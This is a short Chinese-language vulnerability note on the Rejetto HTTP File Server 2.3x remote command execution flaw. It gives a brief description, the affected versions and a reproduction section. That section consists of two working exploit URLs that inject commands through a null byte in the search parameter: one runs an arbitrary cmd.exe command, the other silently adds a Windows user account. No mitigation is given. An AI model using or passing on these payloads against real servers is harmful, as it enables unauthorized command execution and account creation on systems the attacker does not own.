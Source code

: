 ```yaml
---
title: "Hfs 远程命令执行漏洞"
id: zhfly2966
---
```


# Hfs 远程命令执行漏洞

## 一、漏洞简介

Rejetto HTTP File Server 2.3c及之前版本中的parserLib.pas文件中的‘findMacroMarker’函数中存在安全漏洞，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的‘%00’序列利用该漏洞执行任意程序。

## 二、漏洞影响

2.3c以前的2.3x版本

## 三、复现过程

```
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c [Command-String].} 
```

```
http://www.0-sec.org:8080/?search==%00{.exec|cmd.exe /c net user test1234 1234 /add.} 
```